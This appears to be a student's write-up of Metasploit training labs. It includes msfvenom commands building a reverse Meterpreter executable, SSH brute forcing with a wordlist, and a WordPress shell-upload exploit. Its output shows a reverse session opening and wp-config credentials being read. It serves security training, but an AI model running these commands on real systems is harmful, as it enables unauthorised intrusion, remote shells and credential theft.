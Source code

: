 ## Lab 1:
**Q:** Which option would you give to -p if you wanted to create a Windows x64 stageless reverse shell TCP payload?

**A:** windows/x64/shell_reverse_tcp

**Q:** If you wanted to make sure your generated payload did not contain any null bytes, what option would you provide?

**A:** -b '\x00'

**Q:** Which encoder (Name) will use a single-byte XOR countdown encoder? 

**A:** x86/countdown

**Q:** Which of the following would correctly generate a reverse Meterpreter shell?

**A:** msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe

**Q:** Using the correct payload from the question above, generate this payload. What is the final payload size?

**A:** 7168 bytes



## Lab 2:
Tasks

>1. Start the PostgreSQL service and start the Metasploit console
>2. Initialise and connect to the msf database
>3. Import the scan data from /root/ScanData/*
>4. Search the database to answer the questions

Pre question commands:

>">postgresql start"

>">Msfconsole"

>inside Metasploit console

>">Msfdb init"

>already connected skipping

>">Db_status"


>connected to msf

>">Db_import /root/ScanData/*

>imports lots of data


**Q:** How many hosts are recorded in the database?

>">hosts"

>shows a list of hosts there are 10

**A:** 10

**Q:** How many hosts are running the HTTP service? 

>">services"

>shows all services. Counted 5. There is probably a better way to do this with grep, but database is small so this command works.

**A:** 5

**Q:** Which host appears to be the DNS server? (Provide the IP address.)

**A:** 172.17.0.9

**Q:** What is Jimmy’s FTP password?

>"> creds"

>clearly gives jimmys password

**A:** batman

**Q:** Is there any loot? 

>">loot"

>i see nothing here so i think no

**A:** No


## Lab 3:

pre lab commands

>"> cd /usr/share/metasploit-framework/modules/auxiliary/"

**Q:** Browse through the auxiliary modules directory in Kali. How many different protocols can you fuzz with Metasploit? (Look in the fuzzer directory.) 

>"> cd fuzzers/"

>i see 8 directories with different protocol names

**A:** 8

**Q:** What is the name of the only scanner module for nfs? 

**A:** nfsmount

**Q:** Use the dir_scanner module to discover potentially interesting directories on the target web server. What is the token from the last directory found by Metasploit? 

>">msfconsole"

https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/

>">use auxiliary/scanner/http/dir_scanner"

>ip was given in “network” tab

>">set RHOSTS 10.102.3.0"

>">run"

[*] Detecting error code

[*] Using code '404' as not found for 10.102.3.0
[+] Found http://10.102.3.0:80/Joomla/ 200 (10.102.3.0)

[+] Found http://10.102.3.0:80/SiteEdit/ 200 (10.102.3.0)


[+] Found http://10.102.3.0:80/WebBank/ 200 (10.102.3.0)

[+] Found http://10.102.3.0:80/jscss/ 200 (10.102.3.0)

[+] Found http://10.102.3.0:80/leet/ 200 (10.102.3.0)

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

>copy the http addres of the last “found”. Paste it into firefox and it gives you a webpage with the token

**A:** a7420625e2ba860b0736c0be5a214adf

**Q:** Use the ssh_login module to brute force the SSH service for the target server. Use the root_userpass.txt wordlist. What is the password found? 

https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/

>">use auxiliary/scanner/ssh/ssh_login"

>">set RHOSTS 10.102.3.0"

>">set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt"

>">set VERBOSE false"

>">run"

**A:** rootpass

**Q:** What does RHOST stand for?

**A:** Remote Host

**Q:** What will the command 'show payloads' output?

**A:** Display all available payloads for the chosen exploit

**Q:** Which of the following commands will execute an exploit on Metasploit? 

**A:** Run

**Q:** Which exploit do you need to use for this lab?

**A:** wp_admin_shell_upload

**Q:** What is the value of DB_PASSWORD in /var/www/html/wp-config.php?

>"> msfconsole"

>"> use /unix/webapp/wp_admin_shell_upload"

>"> set httpclienttimeout 60"

>"> set username admin"

>"> set password admin"

>"> set RHOST 10.102.1.17"

>"> run"


[*] Started reverse TCP handler on 10.102.1.193:4444

[*] Authenticating with WordPress using admin:admin...

[+] Authenticated with WordPress

[*] Preparing payload...

[*] Uploading payload...

[*] Executing the payload at /wp-content/plugins/WOglOyuZyo/BqsAVuGOgS.php...

[*] Sending stage (38288 bytes) to 10.102.1.17

[*] Meterpreter session 1 opened (10.102.1.193:4444 -> 10.102.1.17:60216) at 2020-07-04 03:17:45 +0000

[+] Deleted BqsAVuGOgS.php

[+] Deleted WOglOyuZyo.php

[+] Deleted ../WOglOyuZyo


>"> cd .."

>"> cd /var/"

>"> cd www/html"

>"> cat wp-config.php"

> after some reading you can see that DB_password is sqlpassword

**A:** sqlpassword
